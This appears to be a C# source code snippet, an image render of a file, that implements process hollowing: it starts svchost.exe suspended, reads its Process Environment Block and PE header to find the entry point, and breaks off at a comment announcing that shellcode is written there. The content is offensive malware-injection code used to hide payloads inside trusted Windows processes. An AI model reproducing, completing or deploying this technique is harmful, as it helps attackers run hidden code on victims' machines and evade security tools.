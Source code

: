 ```csharp

    // http://www.pinvoke.net/default.aspx/kernel32/WriteProcessMemory.html
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool WriteProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        byte[] lpBuffer,
        Int32 nSize,
        out IntPtr lpNumberOfBytesWritten
    );

    // https://learn.microsoft.com/en-us/windows/win32/procthread/process-creation-flags
    static uint CREATE_SUSPENDED = 0x00000004;

    // https://learn.microsoft.com/en-us/windows/win32/procthread/zwqueryinformationprocess
    static int ProcessBasicInformation = 0x00000000;
    public ProcessHollowClass()
    {

        // 1 -- Create the target process in a suspended state

        STARTUPINFO si = new STARTUPINFO();
        PROCESS_INFORMATION pi;
        SECURITY_ATTRIBUTES sa = new SECURITY_ATTRIBUTES();

        bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", ref sa, ref sa, false, 0x4, IntPtr.Zero, null, ref si, out pi);


            // 2 -- Get the address of the Process Environment Block

            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
        uint tmp = 0;
        IntPtr hProcess = pi.hProcess;
        ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size* 6), ref tmp);

            IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);



            // 3 -- Extract the Image Base Address from the PEB

        byte[] addrBuf = new byte[IntPtr.Size];
        IntPtr nRead = IntPtr.Zero;
        ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);

        IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));


            // 4 -- Read the PE structure to find the EntryPoint address

        byte[] data = new byte[0x200];
        ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);

        uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
        uint opthdr = e_lfanew_offset + 0x28;
        uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
        IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);

        IntPtr entryPoint = IntPtr.Zero;


            // 5 -- Write shellcode at EntryPoint
```